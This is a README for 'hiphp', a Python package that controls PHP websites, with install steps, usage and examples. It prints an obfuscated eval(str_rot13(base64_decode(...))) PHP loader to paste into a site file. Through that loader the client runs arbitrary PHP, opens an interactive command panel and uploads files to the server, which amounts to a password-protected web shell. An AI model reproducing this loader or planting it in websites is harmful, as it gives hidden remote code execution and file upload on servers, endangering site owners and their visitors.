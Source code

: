 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/byRo0t96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>A package for controlling a php-based website.</p>
<p align="center">
    <img align="center" src="https://travis-ci.com/byRo0t96/hiphp.svg?branch=main">
    <img align="center" src="https://img.shields.io/github/issues/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/github/forks/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/github/stars/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/badge/license-Apache--2.0-green.svg">
    <img align="center" src="https://img.shields.io/badge/python-3.x.x-blue">
</p>
<h2>Installation:</h2>

```
pip install hiphp==0.1.9
```

<h2>Usage:</h2>

```python
# USAGE :
#s
from hiphp import hiphp

p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>",False) #In order to print the result directly.
#p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>") #In order to make the result as a variable.
print(p1.get_code()) #Get HIPHP ID for first use.
p1.run("<YOUR_CODE>") #Run a code or line in your website.
p1.run_file("<PHP_CODE_FILE_PATH>") #Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>") #Run a code or line in your website from a file With the entry of variables.
p1.cli() #open command panel
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>") #Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>")
#e

```

<h2>Examples:</h2>

```python
# EXAMPLES :
#s
from hiphp import hiphp

p1=hiphp("123","http://localhost/index.php",False)

# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php


# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''

# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''

# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''

# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''

# Example:6
# Upload a picture:
p1.upload("picture_example.png")

# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")
#e

```

<h2>Changelog:</h2>

```
## 0.1.9
 - fix bugs.

## 0.1.7
 - fix bugs.

## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.

## 0.1.5
 - fix bugs.

## 0.1.4
 - fix bugs.
 - new build. 

## 0.1.1
- Import pakages by pipincluder.
- Fix bugs.

## 0.1.0
- New build.
- Fix bugs.

## 0.0.4
- Fix bugs.

## 0.0.2
- Fix bugs.
- Add help list.
- Add Executing from files.

## 0.0.1
- First public release.


```
<br>
<br>
<p align="center">
    <a align="center" href="https://byro0t96.github.io/">
        <img alt="byRo0t96" height="100" align="center" src="https://raw.githubusercontent.com/byRo0t96/byRo0t96/main/images/Ro0t-96_v.3.1.png">
    </a>
</p>

<p align="center">
    <a align="center" href="https://www.facebook.com/yasser.bdj.31">
        <img alt="facebook" align="center" src="https://img.shields.io/badge/Facebook-%2Fyasser.bdj.31-blue">
    </a>
	
   <a align="center" href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg">
        <img align="center"  alt="youtube" src="https://img.shields.io/badge/-YouTube-red">
    </a>
	
   <a href="https://www.linkedin.com/in/boudjada-yasser-a53543196" align="center" >
        <img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-linkedin-blue">
    </a> 
    
   <a href="https://www.instagram.com/bdj.yasser/" align="center" >
        <img align="center" alt="instagram" src="https://img.shields.io/badge/instagram-%2Fbdj.yasser-orange">
    </a> 
        
   <a href="https://github.com/byRo0t96/" align="center" >
        <img align="center" alt="visitor-badge" src="https://visitor-badge.laobi.icu/badge?page_id=byRo0t96.byRo0t96">
    </a>
</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>